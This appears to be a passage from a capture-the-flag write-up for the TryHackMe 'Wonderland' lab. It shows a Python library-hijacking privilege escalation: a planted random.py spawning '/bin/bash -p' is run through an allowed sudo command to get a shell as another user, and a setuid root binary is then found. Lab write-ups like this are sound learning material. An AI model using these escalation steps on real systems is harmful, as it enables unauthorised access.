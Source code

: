 We could your the import function of py to escalate the user cause there are three ways python import things.  
1. Current directory of the script
2. system.lib
3. python.lib
  
  
[Python Import Documentation](https://realpython.com/absolute-vs-relative-python-imports/)  
  

### <ins>python import script:</ins>  
     
@alice:
  
```sh
alice@wonderland:~$ sudo -l
Matching Defaults entries for alice on wonderland:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
alice@wonderland:~$ pwd
/home/alice
alice@wonderland:~$ echo -en 'import os\nos.system("/bin/bash -p")' > random.py
alice@wonderland:~$ cat random.py 
import os
os.system("/bin/bash -p")alice@wonderland:~$ 
alice@wonderland:~$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
rabbit@wonderland:~$ whoami
rabbit
```
  
[Escalation Link](https://gtfobins.github.io/gtfobins/python/)
  
  

---
  
  
  
## <ins>Rabbit enumeration:</ins>
  
Now we are rabbit and go to the home directory if rabbit with `cd /home/rabbit/`.

  
```sh
/home/rabbit$ ls -la
drwxr-x--- 2 rabbit rabbit  4096 May 25 17:58 .
drwxr-xr-x 6 root   root    4096 May 25 17:52 ..
lrwxrwxrwx 1 root   root       9 May 25 17:53 .bash_history -> /dev/null
-rw-r--r-- 1 rabbit rabbit   220 May 25 03:01 .bash_logout
-rw-r--r-- 1 rabbit rabbit  3771 May 25 03:01 .bashrc
-rw-r--r-- 1 rabbit rabbit   807 May 25 03:01 .profile
-rwsr-sr-x 1 root   root   16816 May 25 17:58 teaParty
/home/rabbit$ file teaParty 
teaParty: setuid, setgid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=75a832557e341d3f65157c22fafd6d6ed7413474, not stripped
```


[thmlink]: https://tryhackme.com/room/wonderland